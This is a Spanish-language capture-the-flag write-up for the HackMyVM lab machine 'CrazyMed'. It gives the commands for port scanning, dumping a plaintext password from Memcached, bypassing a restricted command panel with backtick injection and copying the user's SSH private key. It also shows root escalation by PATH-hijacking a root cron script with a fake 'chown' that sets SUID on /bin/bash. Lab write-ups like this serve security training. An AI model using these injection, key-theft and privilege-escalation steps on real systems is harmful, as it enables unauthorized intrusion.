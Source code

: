 ```yaml
---
layout: post
title: CrazyMed
date: 2022-11-25
author: BlackCage
categories: [HackMyVM]
tags: [HMV, MemCached, Path Hijacking]
---
```


# CrazyMed [ Hack My VM ]

## Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.107 -oG allPorts`
- `nmap -sCV -p80,4444,11211 192.168.1.107 -oN targeted`

No vemos nada interesante, sigamos investigando.

## Shell

Si nos conectamos con `NC` por el puerto `4444` veremos un panel que nos da la bienvenida, pero nos pide una contraseña que no tenemos, así que por el momento lo dejamos.

Vemos un puerto algo extraño abierto, `11211`, el cual pertenece a `MemCached`, un almacén de datos de la memoria. Vamos a ver si nos podemos conectar y obtener datos. Para ello utilizaré primero una herramienta llamada `memcdump` para ver los `items` disponibles:

- `apt install libmemcached-tools`
- `memcdump --server=192.168.1.107`

```
domain
server
log
conf_location
```
Bien! Vemos que hemos sido capaces de enumerar `items`, ahora podemos obtener su contenido con `memccat`, para ello haremos lo siguiente:

- `memccat --servers=192.168.1.107 log`

```
password: cr4zyM3d
```

Bien! Hemos sido capaces de obtener una contraseña! Ahora nos podemos conectar por el puerto `4444` con `NC` y con la contraseña encontrada para obtener acceso. Una vez ahí veremos que sólo podremos ejecutar cuatro comandos: `id`, `who`, `echo` y `clear`.

Tras varios intentos para saltarme la verificación del input y poder ejecutar más comandos llegué al acento grave (``` `` ```), gracias a esto podemos ejecutar más comandos de los permitidos.

- ```System command: echo `python3 --version` ```

```
Python 3.9.
```
Fantástico! Tras mirar el directorio con ls -la vi una carpeta llamada .ssh, por lo
que me metí dentro y había un archivo llamado id_rsa, por lo que con cat lo miré y
me lo copié a mi máquina para obtener una Shell siempre que quiera sin proporcionar
contraseña.

Bien! Ya estamos dentro de la máquina como brad!


## Subida de privilegios

Para obtener `root` en la máquina comencé por enumeración básica, la cual no sirvió de mucho, pero [`LinPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) me chivó que tenía permisos de escritura en `/usr/local/bin`, por lo que ya es algo interesante.

Me dispuse a ver los procesos en curso con `PSPY` y cada minuto se ejecutaba un proceso por el usuario `root`, el cual ejecutaba con Bash un `script` llamado `check_VM` situado en `/opt/`. Vamos a hecharle un ojo:

```
#! /bin/bash

#users flags
flags=(/root/root.txt /home/brad/user.txt)
for x in "${flags[@]}"
do
if [[ ! -f $x ]] ; then
echo "$x doesn't exist"
mcookie > $x
chmod 700 $x
fi
done

chown -R www-data:www-data /var/www/html

#bash_history => /dev/null
home=$(cat /etc/passwd |grep bash |awk -F: '{print $6}')

for x in $home
do
ln -sf /dev/null $x/.bash_history ; eccho "All's fine !"
done


find /var/log -name "*.log*" -exec rm -f {} +
```
Vemos que el binario chown se ejecuta de forma relativa y no absoluta, por lo que podemos hacer `Path Hijacking`. Para poder explotarlo nos dirigiremos a `/usr/local/bin/` y crearemos un archivo llamado `chown` con la siguiente instrucción:

- `echo "chmod u+s /bin/bash" > chown`

Una vez creado el archivo le damos permisos de ejecución con: `chmod +x chown` y esperamos unos segundos a que se vuelva a ejecutar la tarea. Una vez esperado hacemos `bash -p`.

Enhorabuena! Ya estamos como `root` en la máquina víctima de forma sencilla!